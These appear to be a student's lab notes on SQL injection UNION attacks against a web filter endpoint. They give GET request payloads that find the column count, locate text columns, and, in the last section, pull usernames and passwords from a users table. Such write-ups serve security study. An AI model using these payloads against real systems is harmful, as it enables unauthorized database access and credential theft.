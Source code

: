 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__



















